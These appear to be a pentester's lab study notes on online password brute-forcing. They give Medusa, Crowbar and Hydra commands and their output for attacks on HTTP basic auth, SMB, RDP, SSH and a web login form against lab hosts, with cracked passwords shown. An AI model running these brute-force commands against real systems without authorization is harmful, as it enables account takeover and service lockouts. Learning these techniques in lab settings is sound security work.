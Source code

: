 
*****NOTE:** PW attacks against network services can be noisy, and in some cases, dangerous.  
Logs & warnings, possibly lockout, etc.  
  

Depending on protocol & cracking tool, can increase login threads to boost speed.  
May not be possible due to protocol restrictions (ie: RDP & SMB)  
Auth negotiation for some protocols are more time-consuming (ie: RDP vs HTTP)  

Hidden art is choosing appropriate targets, user lists, & pw files before initiating the attack.  
  
Must match username & pw, AND honor the protocol involved in the auth process.  
  
**Tools:**  
  
[THC-Hydra](hydra.md)
[Medusa](medusa.md)
[Crowbar](crowbar.md) 

  
  
### HTTP htaccess Attack:

Setup:  
	Apache webserver installed on Win client (through XAMPP)  
	Attempt to gain access to protected folder **/admin**  
	Use wordlist _/usr/share/wordlists/rockyou.txt.gz_  
	Needs to be unzipped:  
```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

```bash
medusa -h <vic_ip> -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```
.
	**-h** - Target hostname or IP  
	**-u** - Username to test  
	**-P** - File containing pws to test  
	**-M** - Name of module to execute (use **medusa** **-d** to show all available modules)  
	**-m** - Param to pass to the module  
  
  
\*\*Will output all results to screen.  
Might want to add:  
```bash
 | grep -i success
```


Ex of attacking SMB on Win client:  
```bash
cat pwlist  
freedom  
lab  
  
medusa -h 192.168.180.10 -u admin -P pwlist -M smbnt -f  
...  
ACCOUNT FOUND: [smbnt] Host: 192.168.180.10 User: admin Password: lab [SUCCESS (ADMIN$ - Access Allowed)]
```



### RDP Attack:

  
Setup:  
Install [crowbar](crowbar.md) on kali.  
  
Attack w/ **crowbar**:  
```bash
crowbar -b rdp -s 192.168.180.10/32 -u admin -C pwlist -n 1  
2023-01-13 09:46:17 START  
2023-01-13 09:46:17 Crowbar v0.4.2  
2023-01-13 09:46:17 Trying 192.168.180.10:3389  
2023-01-13 09:46:22 RDP-SUCCESS : 192.168.180.10:3389 - admin:lab  
2023-01-13 09:46:22 STOP
```
.
	**-b** - Target service  
	**-s** - Target --- (Must include CIDR notation)  
	**-u** - Target user  
	**-C** - PW file to use  
	**-n** - Number of active threads.  
	  
  
** RDP doesn't reliably handle multiple threads (hence **-n 1**)  

  
  
### SSH Attack:

```bash
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```


  
### HTTP POST Attack:

Setup:  
	Win Apache server (w/ xampp)  
  
  
Find arg reqs for http-form-post service:  
```bash
hydra http-form-post -U  
....  
Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]  
First is the page on the server to GET or POST to (URL).  
Second is the POST/GET variables (taken from either the browser, proxy, etc.  
 with url-encoded (resp. base64-encoded) usernames and passwords being replaced in the  
  "^USER^" (resp. "^USER64^") and "^PASS^" (resp. "^PASS64^") placeholders (FORM PARAMETERS)  
Third is the string that it checks for an *invalid* login (by default)  
  Invalid condition login check can be preceded by "F=", successful condition  
  login check must be preceded by "S=".  
  This is where most people get it wrong. You have to check the webapp what a  
  failed string looks like and put it in this parameter!  
...  
```


Discover IP address, URL of the web form, & inspect web form's code.  
  
**web form** - http://192.168.180.10/form/login.html -Discoverable w/ fuzzing(?)  
  
**source** -  
```html
<html>  
<title>  
Web Form Page  
</title>  
<body>  
This is a web form  
<form name="myForm" method="post" action="frontpage.php">  
<p>Login: <input type="text" name="user" /></p>  
<p>Password: <input type="password" name="pass" /></p>  
<p><input type="submit" name="Login" value="Login" /></p>  
</form>  
</body>  
</html>
```
	Indicates POST request is handled by _/form/frontpage.php_  
  
**url** - [http://192.168.180.10/form/frontpage.php](http://192.168.180.10/form/frontpage.php)  
  
**reqs** - user & pass  
	user=admin  
	pass=^PASS^ (acts as a placeholder for our wordlist file entries.  
  
**condition string** - Indicates when a login attempt is unsuccessful.  
	Attempt a few manual login attemps and use text returned from the web page:  
		INVALID LOGIN  

Giving us the completed code needed for **hydra**:  
```bash
hydra 192.168.180.10 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f  
...  
[DATA] attacking http-post-form://192.168.180.10:80/form /frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN  
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done  
[ATTEMPT] target 192.168.180.10 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)  
...  
[ATTEMPT] target 192.168.180.10 - login "admin" - pass "jessica" - 16 of 14344399 [child 15] (0/0)  
[80][http-post-form] host: 192.168.180.10   login: admin   password: crystal  
[STATUS] attack finished for 192.168.180.10 (valid pair found)  
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-13 10:33:36  
```
.
	**-l** - Login name  
	**-P** - Password list file  
	**-vV** - Very verbose  
	**-f** - Exit once pair is found  
  
Can use **F=INVALID LOGIN** or **S=**\<successful login text\>
